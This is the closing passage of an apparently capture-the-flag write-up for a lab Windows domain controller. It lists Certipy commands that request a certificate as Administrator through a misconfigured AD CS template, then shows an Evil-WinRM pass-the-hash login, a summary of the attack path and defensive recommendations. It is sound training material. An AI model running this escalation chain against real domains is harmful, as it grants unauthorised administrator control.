

```bash
certipy-ad req -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' \
  -dc-ip 10.129.12.41 -dns-tcp \
  -ca 'sequel-DC-CA' -template 'UserAuthentication' \
  -upn 'administrator@sequel.htb'
```



```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.12.41 -dns-tcp
```



Use the **NT hash** printed by Certipy with **Evil-WinRM**:

```bash
evil-winrm -i 10.129.12.41 -u administrator -H '<NT_HASH_FROM_CERTIPY>'
```

```powershell
whoami
type C:\Users\Administrator\Desktop\root.txt
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Identified DC services, **MSSQL**, **WinRM**, **LDAP**.  
2. **SMB Enumeration** → Guest read on **`Public`**; PDF with SQL credentials.  
3. **MSSQL + Responder** → **`xp_dirtree`** NetNTLM capture; cracked **`sql_svc`**.  
4. **WinRM** → Shell as **`sql_svc`**; **`ERRORLOG.BAK`** leaks **`ryan.cooper`**.  
5. **User Access** → **`ryan.cooper`** WinRM; **user flag**.  
6. **AD CS** → **`UserAuthentication`** template + **`certipy-ad req` / `auth`** → Administrator **NT hash**.  
7. **WinRM (PTH)** → **Administrator** shell; **root flag**.

---
## Defensive Recommendations

- **SMB:** Avoid guest-readable shares exposing internal docs and credentials; restrict **Null Session** / anonymous access.  
- **SQL Server:** Enforce strong **service account** passwords; audit **`xp_*`** surface and **EXECUTE** grants; limit outbound UNC from SQL.  
- **Logging:** Prevent sensitive authentication errors (or credential patterns) from appearing in **world-readable** log backups.  
- **AD CS:** Review certificate templates (**`UserAuthentication`**, **`User`**, etc.); enforce **enrollee subject** and **enrollment** permissions per least privilege; monitor for **ESC**-class misconfigurations.  
- **Time sync:** Maintain reliable **NTP** on DCs and clients to reduce Kerberos skew issues during legitimate PKINIT operations.
